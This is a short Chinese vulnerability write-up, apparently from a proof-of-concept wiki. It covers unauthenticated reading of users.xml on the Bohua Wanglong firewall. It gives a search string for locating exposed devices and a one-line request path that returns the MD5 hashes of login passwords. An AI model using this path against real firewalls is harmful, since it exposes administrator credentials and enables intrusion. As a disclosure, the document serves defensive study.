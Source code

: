 # 博华网龙防火墙 users.xml 未授权访问

## 漏洞描述

博华网龙防火墙 users.xml文件 可被任意用户读取，其中包含登录的账号密码

## 漏洞影响

<a-checkbox checked>博华网龙防火墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"博华网龙防火墙"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1628670749851-c85b5406-15f0-498c-9edd-80b1eb2ac426.png)

验证POC, 读取配置文件获取密码的Md5

```php
/xml/users.xml
```

![img](/assets/PeiQi-Wiki/img/1628670712797-5caf4c4d-716b-4aa4-9468-d1ff8c433b66.png)



